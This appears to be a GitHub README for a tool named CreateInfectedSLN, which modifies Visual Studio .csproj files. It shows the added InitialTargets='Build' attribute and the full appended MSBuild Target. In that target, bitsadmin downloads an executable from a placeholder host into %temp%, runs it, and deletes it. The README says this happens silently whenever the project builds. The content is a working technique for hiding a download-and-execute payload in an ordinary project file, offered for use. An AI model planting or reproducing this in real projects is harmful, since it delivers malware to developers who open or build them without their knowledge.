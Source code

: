 ## Usage:



```cs
CreateInfectedSLN(Job(random Sting), Link(direct download), Filename(Name of file saved to temp));
```


## So what does this do?

```xml
This edits the file and adds a bit to it:
We change the 15 to 14 and add 'InitialTargets="Build"'
```

#### Clean .csproj:

```xml 
<Project ToolsVersion="15.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
```
#### Modifed .csproj
```xml 
<Project ToolsVersion="14.0" InitialTargets="Build" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 ```

 ### We then append this to the end of the file:
```xml
<Target Name="Build">
    <Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="%temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="del %temp%\Demo.exe" >
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Message Importance="high" Text="$(ErrorCode)"/>
    </Target> 
```
### Here is the biggest part: 

We use bitsadmin to assign a job that downloads and runs the process after its downloaded in the background and requires no user interaction.  
```xml
<Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
 ```
## Extra Example: 
```cs
Job = JOSHN38N;
Link = http://domain.com/filename.exe;
Filename = Demo.exe;*/
```
